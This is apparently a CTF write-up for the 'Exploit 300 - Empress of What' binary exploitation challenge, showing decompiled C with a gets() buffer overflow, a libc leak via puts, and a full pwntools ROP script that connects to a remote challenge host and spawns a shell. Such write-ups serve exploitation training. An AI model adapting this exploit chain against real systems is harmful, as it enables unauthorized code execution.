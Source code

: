 ```yaml
---
description: Binary Exploitation
---
```


# Exploit 300 - Empress of What

> The first time I successfully built a ROP chain, I thought the guy teaching me was a wizard. It felt like Prometheus personally delivering fire to light up the room. I'm not sure why. Something about it is just so cool to me. Taking little bits and pieces and assembling your own narrative. It opened up a whole new world of possibilities. It's something I'm glad I get to share with my students every year, and something I'm glad I get to share with you now. Enjoy.

{% file src="../../.gitbook/assets/Exploit300-1" %}

```
Arch:       amd64-64-little
RELRO:      Partial RELRO
Stack:      No canary found
NX:         NX enabled
PIE:        No PIE (0x400000)
Stripped:   No
```

Decompiled with Ghidra, and it looked like a very short challenge that only does two things: leak puts, and a buffer overflow vulnerability:

```c
void vulnerable_function(void)

{
  char local_48 [64];
  
  printf("Enter your input: ");
  gets(local_48);
  return;
}

void leak_function(void)

{
  printf("Leaking libc address of puts: %p\n",puts);
  return;
}

void win(char *param_1)

{
  printf("Running command: %s\n",param_1);
  system(param_1);
  return;
}

undefined8 main(void)

{
  setvbuf(stdout,(char *)0x0,2,0);
  leak_function();
  vulnerable_function();
  return 0;
}
```

The idea of this challenge relies on the puts address leak, allowing you to get the libc address for you to spawn a shell with. Now by using buffer overflow, I could return to the win function with `/bin/sh` as the parameter and get a shell that way.

Doing this in local was quite simple, but the only issue was getting the correct libc on remote. I used [https://libc.rip/](https://libc.rip/) to input the puts leak to get a list of possible libc files.

I tested each result one by one and landed with `libc6-amd64_2.31-13+deb11u11_i386.so` and it worked perfectly.&#x20;

Here's the final solve script:

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# -*- template: winterbitia -*-

# ====================
# -- PWNTOOLS SETUP --
# ====================

from pwn import *

exe = context.binary = ELF(args.EXE or 'Exploit300-1')
trm = context.terminal = ['tmux', 'splitw', '-h']

host = args.HOST or '34.123.210.162'
port = int(args.PORT or 32006)

def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)

gdbscript = '''
tbreak main
# b *vulnerable_function+42
continue
'''.format(**locals())

# =======================
# -- EXPLOIT GOES HERE --
# =======================

io = start()

RIP_OFFSET = 72
POP_RDI = 0x000000000040127b
RET = 0x0000000000401016
WIN_FUNC = 0x0000000000401152

log.info(io.recvuntil(": "))
leak = int(io.recvline().strip(),16)

libc = ELF("./libc6-amd64_2.31-13+deb11u11_i386.so")
libc.address = leak - libc.symbols['puts']
log.info(f"Leak: {hex(libc.address)}")

binsh = next(libc.search(b"/bin/sh"))

payload = flat(
    cyclic(RIP_OFFSET,n=8),
    POP_RDI,
    binsh,
    RET,
    WIN_FUNC
)

io.clean()
io.sendline(payload)
log.info(io.clean())

io.interactive()
```

Here's an example of the solve using my local libc:

<figure><img src="../../.gitbook/assets/image (16).png" alt=""><figcaption></figcaption></figure>
